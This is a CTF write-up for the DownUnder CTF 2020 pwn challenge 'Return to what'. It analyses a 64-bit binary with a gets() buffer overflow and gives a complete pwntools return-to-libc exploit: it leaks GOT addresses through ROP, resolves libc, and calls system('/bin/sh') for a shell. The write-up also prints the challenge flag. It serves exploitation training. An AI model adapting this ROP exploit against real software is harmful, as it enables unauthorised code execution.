



# DownUnder CTF 2020: Pwn: Return to what
</br>**Category:** Pwn/Binary exploitation **Points:** 200 points
</br></br>
**Description:**</br>
This will show my friends!
>nc chal.duc.tf 30003

**Attachment:**
[return-to-what](return-to-what) (sha256sum: a679b33db34f15ce27ae89f63453c332ca7d7da66b24f6ae5126066976a5170b)

## Solution
What type of file is return-to-what:
```
$ file return-to-what
return-to-what: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=02d43d7f8ca04895439f73b904f5204ba9984802, not stripped
```

What security protections are implemented:
```
$ pwn checksec return-to-what
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

What the binary does:
```
$ ./return-to-what
Today, we'll have a lesson in returns.
Where would you like to return to?
OUR_INPUT
```
It prints a message, asks us for input and exits.

Let's decompile the binary using ghidra:
<p align=center></p>

Let's checkout `vuln()`:
<p align=center></p>

As we can see in the screenshot above, vuln() uses the vulnerable libc functions `gets`, that we can attack using a buffer overflow. Now, the question is, where will we return to?
With the protection NX enabled, we can't run instructions in the stack, meaning that using a shellcode is out of the question. Is there a winning function that we can use?
<p align=center></p>
It doesn't look like it. So we will have to use ROP to do a return to libc attack. 

(just like in csaw ctf quals 2020 pwn/roppity, the only difference is that now the libc library isn't given to us).

## Exploit
```python
from pwn import *

local = False

host, port = 'chal.duc.tf', 30003
binary = './return-to-what'
elf = ELF(binary)

if local:
    p = process(binary)
    libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
else:
    p = remote(host, port)
    libc = ELF('libc6_2.27-3ubuntu1_amd64.so')

def debug(bps):
    gdbscript = ''
    for bp in bps:
        gdbscript += 'b *0x{:x}'.format(bp)
    gdb.attach(p, gdbscript=gdbscript)
#debug([0x00000000004011ac])


p.recvuntil('Where would you like to return to?')
padding = b'A'*56

# leaking puts address
puts_plt = elf.symbols['puts']
main_plt = elf.symbols['main']
puts_got = elf.got['puts']
pop_rdi = 0x000000000040122b

log.info('puts_plt addr = ' + hex(puts_plt))
log.info('main addr     = ' + hex(main_plt))
log.info('puts_got addr = ' + hex(puts_got))
log.info('pop_rdi  addr = ' + hex(pop_rdi))

# making rop payload
rop_1 = padding + p64(pop_rdi) + p64(puts_got) + p64(puts_plt) + p64(main_plt)
p.sendline(rop_1)

# extracting puts leaked address
p.recvline() # receives newline
puts_leaked = p.recvline().strip() # receives puts addresss
puts_leaked = u64(puts_leaked.ljust(8, b'\x00'))
log.info('leaked puts is ' + hex(puts_leaked))

p.recvuntil('Where would you like to return to?')

# leaking gets address
gets_got = elf.got['gets']

# making rop payload
rop_2 = padding + p64(pop_rdi) + p64(gets_got) + p64(puts_plt) + p64(main_plt) + p64(pop_rdi) + p64(gets_got) + p64(puts_plt) + p64(main_plt)
p.sendline(rop_2)

# extracting gets leaked address
p.recvline() # receives newline
gets_leaked = p.recvline().strip() # receives gets addresss
gets_leaked = u64(gets_leaked.ljust(8, b'\x00'))
log.info('leaked gets is ' + hex(gets_leaked))

p.recvuntil('Where would you like to return to?')

# find which libc is used on the server, with libc database at https://libc.rip, and download it
# libc6_2.27-3ubuntu1_amd64.so

# calculate libc base address
puts_libc = libc.symbols['puts']
libc.address = puts_leaked - puts_libc

# finding system and '/bin/sh'
system_addr = libc.symbols['system']
bin_sh_addr = next(libc.search(b'/bin/sh'))
log.info('system addr  = ' + hex(system_addr))
log.info('/bin/sh addr = ' + hex(bin_sh_addr))

# making rop payload
rop_3 = padding + p64(pop_rdi) + p64(bin_sh_addr) + p64(system_addr) + p64(pop_rdi) + p64(bin_sh_addr) + p64(system_addr) 
p.sendline(rop_3)

p.interactive()
```

## Flag
> DUCTF{ret_pUts_ret_main_ret_where???}
